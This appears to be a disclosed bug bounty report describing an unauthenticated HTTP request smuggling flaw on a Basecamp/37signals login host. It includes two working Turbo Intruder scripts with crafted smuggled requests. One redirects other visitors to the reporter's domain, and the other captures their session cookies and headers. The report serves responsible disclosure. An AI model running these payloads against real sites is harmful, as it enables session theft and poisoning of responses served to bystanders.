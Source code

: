# Unauthenticated request smuggling on launchpad.37signals.com

## Report Details
- **Report ID**: 867577
- **URL**: https://hackerone.com/reports/867577
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-07T04:16:23.389Z
- **Disclosed**: 2020-10-28T14:57:15.180Z

## Reporter
- **Username**: hazimaslam
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
## Description

By sending an ambiguous request on the rails application on `launchpad.37signals.com`, an attacker can desynchronise frontend and backend servers, leaving the socket to the backend server poisoned with a harmful response. This response will then be served up to the next visitor.

The desync occurs when sending a request with a `Content-Length` header and a valid `Transfer-Encoding` header followed by an invalid `Transfer-Encoding` header. The frontend server only examines the second `Transfer-Encoding` which is invalid, so it uses the `Content-Length` instead. However the backend server prioritises the valid `Transfer-Encoding` header and therefore ignores the `Content-Length`.

## Validation Steps

To replicate this bug, run the following script in Turbo Intruder. After issuing a desync request, it simulates 6 requests from normal visitors one of which gets redirected to `hazimaslam.com`.

```python
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint='https://launchpad.37signals.com:443',
                           concurrentConnections=3,
                           requestsPerConnection=2,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )

    attack = '''POST /identity HTTP/1.1
Host: launchpad.37signals.com
Content-Length: 69
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: foo

3
x=1
0

GET / HTTP/1.1
X-Forwarded-Host: hazimaslam.com
Foo: bar'''

    engine.queue(attack)

    victim = '''GET /signin HTTP/1.1
Host: launchpad.37signals.com
Connection: close
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,la;q=0.8
Cookie: _launchpad_session=uViarUZn10afBS9AD4AgD9lF4iEk6%2FIfinxiAVgiEQNq2xMTKY86i9r%2FZEQ%2BENl183aEL845OspHItodYdrC0OIEWMzEjswGng%2F%2BXwE5nsYBhY7ep%2B%2FmrDB1ZXa%2B1NaAji52own5luVsggkP98GrqNjnWHxGdIfffZjMFwz3Q3fNxV0NilS1DmNiY0P72x9CDsrQfzc0HbGfnL%2BEvs9%2BODfbfJYnexsrxX2P78RaQ8wf--0zL8fFbFTz6maAwm--XxtVi%2BPuHcoHD8hjqSkxkQ%3D%3D

'''
    for i in range(6):
        engine.queue(victim)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```

{F818615}

### Capturing and storing normal visitors' request headers and cookies

By prefixing the victim's request with a crafted storage request, we can make the application save their request and display it back to us and steal any authentication cookies/headers.

1. Login and visit https://launchpad.37signals.com/identity/edit
2. Save changes and intercept the request.
3. Copy the values of following from intercepted request and paste in the script where indicated:

- identity_id (cookie)
- session_token (cookie)
- _launchpad_session (cookie)
- authenticity_token (parameter)


```python
def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint='https://launchpad.37signals.com:443',
                           concurrentConnections=3,
                           requestsPerConnection=2,
                           resumeSSL=False,
                           timeout=10,
                           pipeline=False,
                           maxRetriesPerRequest=0,
                           engine=Engine.THREADED,
                           )

    attack = '''POST /identity HTTP/1.1
Host: launchpad.37signals.com
Content-Length: 903
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Transfer-Encoding: foo

3
x=1
0

POST /identity HTTP/1.1
Host: launchpad.37signals.com
Content-Length: 435
X-Forwarded-Proto: https
Content-Type: application/x-www-form-urlencoded
Cookie: identity_id=PASTE_identity_id_HERE; session_token=PASTE_session_token_HERE; _launchpad_session=PASTE_launchpad_session_HERE

_method=patch&authenticity_token=PASTE_authenticity_token_HERE&identity%5bavatar%5d=&identity%5bname%5d='''

    engine.queue(attack)

    victim = '''GET /signin HTTP/1.1
Host: launchpad.37signals.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36
Cookie: _launchpad_session=uViarUZn10afBS9AD4AgD9lF4iEk6%2FIfinxiAVgiEQNq2xMTKY86i9r%2FZEQ%2BENl183aEL845OspHItodYdrC0OIEWMzEjswGng%2F%2BXwE5nsYBhY7ep%2B%2FmrDB1ZXa%2B1NaAji52own5luVsggkP98GrqNjnWHxGdIfffZjMFwz3Q3fNxV0NilS1DmNiY0P72x9CDsrQfzc0HbGfnL%2BEvs9%2BODfbfJYnexsrxX2P78RaQ8wf--0zL8fFbFTz6maAwm--XxtVi%2BPuHcoHD8hjqSkxkQ%3D%3D
Foo: bar

'''
    for i in range(6):
        engine.queue(victim)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```
Run the script in Turbo Intruder and refresh https://launchpad.37signals.com/identity/edit to see captured headers and cookies.

Here is the video demonstration for this:

{F818731}

## Impact

- With request smuggling, attacker can serve harmful response to random people actively browsing the website, enabling straightforward mass-exploitation.

- By redirecting javascript imports to a malicious domain, an attacker can inject a key-logger and steal user passwords from login page.

- It is also possible to capture visitors' request headers and cookies.

- No authentication and interaction required.

## Attachments
- Screenshot_2020-05-07_at_7.51.16_AM.png
- Screen_Recording_2020-05-07_at_9.02.52_AM.mov
